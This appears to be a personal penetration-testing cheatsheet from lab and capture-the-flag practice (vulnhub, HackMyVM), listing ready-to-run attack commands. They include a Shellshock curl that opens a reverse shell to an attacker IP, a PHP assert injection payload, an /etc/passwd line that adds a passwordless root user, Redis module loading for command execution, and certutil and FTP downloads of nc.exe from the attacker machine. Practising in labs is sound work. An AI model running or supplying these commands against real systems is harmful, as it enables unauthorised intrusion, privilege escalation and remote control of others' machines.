 # My Notes / Cheatsheet
### Last Updated: 24 Jan 2020
Notes related to Vuln Assmnt/PenTesting 

#### Approach for Compromising a box
> 1. Identify open ports (**nmap/autorecon/rustscan**), enumerate ports (TCP+UDP) for services.
> 1. Maybe reset the box / IP if nothing found? 
> 1. Run **gobuster/wfuzz** and identify DIR and FILES present. Try using 02 diff wordlists. BurpSuite also has crawler. 
> 1. To enumerate the version of web app, can try http://website:port/readme.md or http://website:port/CHANGELOG http://website:port/README etc ? 
> 1. Run **nikto**, Have you read the source code ? If its a website look whats running ?
> 1. Authentication can be bypassed by **SQLi Auth Bypass** or maybe try **Password Spray** or **BruteForce**.
> 1. Maybe running **CEWL** for a good wordlist generation ?. 
> 1. Wordpress, Joomla, October, Phpmyadmin, Mantis, Adminer etc.
> 1. Running tools e.g **wpscan** or **joomscan** can help further enumeration.
> 1. Try running **Hydra** with HTTP module for brute forcing.
> 1. Cewl can be used to generate a custom wordlist if "/usr/share/wordlists/rockyou.txt" fails. 
> 1. Custom built web normally has:
> 1. SQL injection - **Authentication bypass** & **Database dump** & **Upload malicious file**.
> 1. XSS - Alerting messages and getting cookies
> 1. LFI - **.php?file=/etc/passwd** - Try fuzzing it with WFUZZ. Reading **LOG** files to acheive RCE or Reading **SSH** key files.
> 1. PHP assert ftn to bypass - e.g. http://192.168.10.30/index.php?page=' and die(system("ls")) or '	
> 1. Command Injection - Try Special characters e.g. " ; , | , & , && " etc. ${IFS} is space --- Can help in achieving ComInj. 

#### PrivESC Methodology for Linux
> 1. Creds file or any misconfiguration file? (**find or grep** command)
> 1. SUDO commands this user can run ? (try running sudo -l) 
> 1. SUID binaries present (use **find** command or **suid3num python** script)
> 1. Is there SQL database, try enumerating it ? Maybe it has linux user password in it ? 
> 1. Running ports / services on this box ? (use **netstat** or **ss** command)
> 1. Pspy ?
> 1. Kernel or other exploits e.g. exploits for SUDO ?
> 1. **Linpeas** or **LinEnum** or **Linux Exploit Suggester**

#### PrivESC Methodology for Linux - /etc/passwd && /etc/shadow
> 1. Check who owns -> ls -lart /etc/passwd && who owns ls -lart /etc/shadow. 
> 1. Making user **fm** the root by typing command ->  echo fm::0:0:root:/root:/bin/bash >> /etc/passwd
> 1. openssl for generating password hashes command -> openssl passwd -1

#### cgi-bin folder or ShellShock
> e.g from vulnhub symfonos v3 following gives Rev Shell @ port 9999.\
> curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.10.100/9999 0>&1' http://192.168.10.10/cgi-bin underworld/test.sh

#### Portforwarding via BurpSuite
> 1.  Under "Proxy Listeners" add new listener on random port [e.g TCP9000] and select option "All Interfaces". In "Request Handling" tab give the IP and Port [e.g IP2:80] of server you want to access. Now if you open http://IP1:9000 it will redirect to http://IP2:80

#### FTP download a directory 
> 1. ftp://192.168.75.65/Logs
> 1. wget -r -nH --cut-dirs=5 -nc ftp://anonymous:nopassneeded@192.168.75.65//absolute/path/to/directory
> 1. wget -r -nH --cut-dirs=5 -nc ftp://anonymous:nopassneeded@192.168.75.65//Logs
> 1. ncftp -u [user] -p [pass] [server]

#### Exploiting Redis service --- Usually running on 6379
> 1. "Redis Load Module" technique, for this you need to upload a file to SERVER, so something like FTP or SSH with WRITE access
> 1. Download this repo -> https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
> 1. Run "make" command and put the "module.so" file to server
> 1. Next connect to Redis server via telent; command - telnet 192.168.XXX.XXX 6379
> 1. and load this moudle; command - MODULE LOAD /path/of/module.so
> 1. if everything goes well, you should see "+OK"
> 1. in redis run command: system.exec "id" and you should see "id" command output

#### Portforwarding local service 8080
> using **socat** for local port forwarding. In this example port 8080 is running locally and we will forward and make it public to 8089.\
> socat TCP-LISTEN:8089,fork TCP:127.0.0.1:8080

#### Portforwarding local service 5901 (VNC) - HackMyVM Box Level
> 1. using SSH (Kali IP: 192.168.10.100, Level IP: 192.168.10.11).\
> 1. there is a service running on port 5901 locally.\
> 1. ss -tupln output --> 127.0.0.1:5901 (locally) && 0.0.0.0:65000 (global) && :80(global).\
> 1. From Kali Box run: ssh -L 5901:localhost:5901 one@192.168.10.11 -p 65000.\
> 1. Now you can acess that port 5901 locally i.e. (from Kali Box: http://127.0.0.1:5901) .\
> 1. **VNC open session** vncviewer -passwd remote_level 127.0.0.1:5901

#### Fuzzing LFI
> 1. wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathto
test-huge.txt -b "wp-settings-time-1=1608569211; PHPSESSID=i1hg93k0bmjg4jgpf0m7j7b5fl" -u http
://192.168.10.13/bluesky/port.php?file=FUZZ --hw 245 -H "User-Agent:Mozilla/5.0 (X11; Linux x8
6_64; rv:78.0) Gecko/20100101 Firefox/78.0"
> 1. wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathto
test-huge.txt -b "wp-settings-time-1=1608569211; PHPSESSID=i1hg93k0bmjg4jgpf0m7j7b5fl" -u http
://192.168.10.13/bluesky/port.php?file=FUZZ --hw 245 -H "User-Agent:Mozilla/5.0 (X11; Linux x8
6_64; rv:78.0) Gecko/20100101 Firefox/78.0" -P 127.0.0.1:8080:HTTP

#### Windws Tricks
##### Download a file in Windows via certutil
> 1. certutil -urlcache -split -f http://192.168.10.100/nc.exe nc.exe

##### Download a file in Windows via FTP client 
> 1. on Kali box first install module of ftp by running: pip install pyftpdlib
> 1. start FTP server: python -m pyftpdlib -p 21
> 1. on Windows box type command: echo open 10.10.16.185 21> ftp.txt&echo USER anonymous >> ftp.txt&echo anonymous>> ftp.txt&echo bin>> ftp.txt&echo GET nc.exe 
> 1.  ftp.txt&echo bye>> ftp.txt
> 1. The above command will create a ftp.txt file which will have commands to download the file.
> 1. Finally run: ftp -v -n -s:ftp.txt
> 1. and file will be downloaded. 

#### PrivESC Methodology for Windows
> 1. Look for exploits on -> https://github.com/SecWiki/windows-kernel-exploits
